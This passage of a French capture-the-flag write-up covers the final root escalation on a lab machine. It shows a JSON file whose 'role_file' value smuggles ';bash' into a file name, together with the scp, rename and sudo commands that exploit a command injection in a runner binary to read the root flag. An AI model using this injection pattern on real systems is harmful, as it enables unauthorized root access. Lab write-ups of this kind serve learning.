 Je n'ai pas pu finir et j'ai trouvé la solution pour la fin de l'élévation sur un forum, il s'agissait apparemment d'une injection de commande dans l'action "install" du script. Cette injection semblait être trouvable en désassemblant et en étudiant le binaire directement.

JSON à utiliser : 

    {
      "run": {
        "action": "install",
        "role_file": "sys-admins-role.tar;bash",
      },
      "auth_code": "UHI75GHINKOP"
    }
    

Copie et exécution : 

    scp .\sys-admins-role-0.0.3.tar.gz lopez@10.10.11.15:/tmp/
    cd /tmp
    gunzip sys-admins-role-0.0.3.tar.gz
    mv /tmp/sys-admins-role-0.0.3.tar "/tmp/sys-admins-role-0.0.3.tar;bash"
    vim /tmp/exp.json
    sudo /opt/runner2/runner2 /tmp/exp.json
    cat /root/root.txt
    
JSON final à utiliser : 

    {
      "run":{
            "action":"install",
            "role_file":"/tmp/sys-admins-role-0.0.3.tar;bash"
            },
      "auth_code":"UHI75GHINKOP"
    }
    
L'archive Tar est un playbook qui sert à mieux gérer les rôles sur Ansible : https://github.com/coopdevs/sys-admins-role/
